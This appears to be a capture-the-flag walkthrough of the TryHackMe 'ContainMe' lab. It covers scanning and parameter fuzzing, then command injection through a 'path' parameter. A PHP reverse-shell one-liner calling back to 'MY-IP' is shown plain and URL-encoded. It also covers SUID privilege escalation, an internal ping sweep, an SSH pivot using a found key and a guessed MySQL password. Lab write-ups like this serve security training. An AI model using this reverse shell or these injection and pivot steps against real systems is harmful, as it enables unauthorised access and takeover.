 # [ContainMe (TryHackMe](https://tryhackme.com/room/containme1)

First, let's scan this thing: 

<code>rustscan -a 10.10.163.146</code>

![PIC_RUST](https://user-images.githubusercontent.com/93183445/141817607-4bf1e9a5-bb79-4117-9c40-a9a2a173efb0.png)

After that, just to be sure, nmap follows: 

<code>nmap -sV -sC -p22,80,2222,8022 10.10.163.146</code>

![PIC_NMAP](https://user-images.githubusercontent.com/93183445/141818585-cd585f86-3984-4137-a29e-c19ffebfc1a3.png)

Let's go after some directories (I added the "-t5" option at the end, because I got a lot of errors): 

<code>feroxbuster --url http://10.10.163.146 -w /usr/share/wordlists/dirb/common.txt -t 5</code>

![PIC_FEROX](https://user-images.githubusercontent.com/93183445/141819090-47390871-02a1-47e9-87e5-7a678fe70824.png)

The index.php shows a directory listing. Let's look at the source.

![PIC_INDEX_1](https://user-images.githubusercontent.com/93183445/141818220-71e224fc-9695-4f2c-bc05-f4efb6375f05.png)

Looks like we're going to search for the path. At this point I try to keep in mind that this 
box is marked as "easy"... Let's go for it!!

Tried a few things, but didn't find anything with directory bruteforcing. Maybe it is a parameter?

<code>ffuf -u http://10.10.163.146/index.php?FUZZ=a -w /usr/share/wordlists/dirb/common.txt</code>

This command spat out an incredible amount of responses. All with status 200. But they all had the same response
size. Let's filter that out and see what happens:

<code>ffuf -u http://10.10.163.146/index.php?FUZZ=a -w /usr/share/wordlists/dirb/common.txt -fs 329</code>

The outcome was:\
<code>path                    [Status: 200, Size: 79, Words: 9, Lines: 11]</code>

So we found the path.
As we could view the directory listing earlier and this is a box marked as easy, I tried simple rce
like id, whoami and so on. Nothing seemed to work.
The only thing that gave something back, was `ls` and `pwd`
(with backticks). So just the directory listing is enabled, it seems.\
So why not try "/"? Bingo..\
I'm able to see the directory listing of "/".\
With this opportunity given, I wanted to take a look in the home directory.\
So I found mike.

![PIC_MIKE](https://user-images.githubusercontent.com/93183445/141819141-6e26bff1-fa75-4ce1-9dd8-cb29e4da2a47.png)

But mike wasn't of great use, since I couldn't read or list the content of ".ssh/".

Still reminding me that this is a box marked as "easy", I tried command injection. With success:

![PIC_WHOAMI](https://user-images.githubusercontent.com/93183445/141819181-05119d8a-1653-4fed-bb16-85babe95f8df.png)

It took me a few tries just to end up using php and url-encoding anfter I wasn't able to netcat or wget anything.\
Again, https://www.revshells.com to the rescue :)

<code>php -r '$sock=fsockopen("MY-IP",9001);exec("sh <&3 >&3 2>&3");'</code>\
Urlencoded we get:\
<code>php%20-r%20%27%24sock%3Dfsockopen%28%22MY-IP%22%2C9001%29%3Bexec%28%22sh%20%3C%263%20%3E%263%202%3E%263%22%29%3B%27</code>

Add this to the URL in the browser after starting a listener, and we get a callback :)

![PIC_CALLBACK](https://user-images.githubusercontent.com/93183445/141820541-5533b0a1-1f27-4561-9500-106cb802d846.png)

Stabilize the shell with python3:\
<code>python3 -c 'import pty;pty.spawn("/bin/bash")'</code>

Then check mike's home directory (remember the .ssh/ folder from before).\
But we get a "Permission denied". We're still www-data. But there's a binary file we are allowed to execute.\
Let's do that. Nothing happens. Except the fancy output telling us "CRYPTSHELL"..\
Again, trying to keep in mind this being a simple box, I append "mike" for the execution of the binary.\
This time, it took a few seconds to respond, so there's clearly something going on..\
Time for a search after files we are able to execute:

![PIC_CRYPT_1](https://user-images.githubusercontent.com/93183445/141819398-ead3d135-c25a-4df7-a6a2-c852c9080f5d.png)

Looks like we found something interesting..

![PIC_CRYPT_2](https://user-images.githubusercontent.com/93183445/141819430-cf877c52-1037-4575-8211-482a5e729231.png)

Trying the same again with this binary, things take an interesting turn:

![PIC_CRYPT_3](https://user-images.githubusercontent.com/93183445/141819452-30f55aaa-1464-4f43-90d6-d4c042520acd.png)

Welcome to the root-fest :).\
But no luck, the root directory is pretty much empty..\
The hostname is "host1", so maybe there's a number2?\

The following just didn't work somehow..

<code>for i in {1..254} ;do (ping -c 1 172.16.20.$i | grep "bytes from" &) ;done</code>

I mean to some degree, because before it went on telling me
that "Destination Host Unreachable". But inbetween the errors, I saw that 172.16.20.6 was up.\
So I had to stop the loop and reconnect.\
Note to self: *Better use the static nmap next time..* 

Then, the first thing I tried was to connect with the id_rsa from mikes home directory to the newly
found host (still kept in mind this is an easy box..):

<code>ssh -i /home/mike/.ssh/id_rsa mike@172.16.20.6</code>

Aaaaand we're in :)

![PIC_HOST_2](https://user-images.githubusercontent.com/93183445/141819577-4c41309d-254b-49ec-9976-188f752d0148.png)

After searching around a bit, I got to the services. And there it was: port 3306

![PIC_NETSTAT](https://user-images.githubusercontent.com/93183445/141819600-9a0629dd-87ad-463b-bcd1-ac2c7f00ca93.png)

Taking a look at /etc/passwd revealed that there's no other user than mike. So let's get into the database.
It has to be good for something at least..

I tried to login a few times keeping the passwords rather simple. Then I succeeded with:

<code>mysql -umike -ppassword</code> 

Working my way towards the contents of the database gave me the things I needed in the end :) 

![PIC_DATABASE_2](https://user-images.githubusercontent.com/93183445/141819643-05927619-7c95-4e58-ba0a-388538059103.png)

Or at least, I thought so.. (sigh). Still no root flag. 
BUT: 

![PIC_ROOT](https://user-images.githubusercontent.com/93183445/141819661-c219d315-0011-4f31-a6bf-b00a5fff87cc.png)

**Thanks :)**












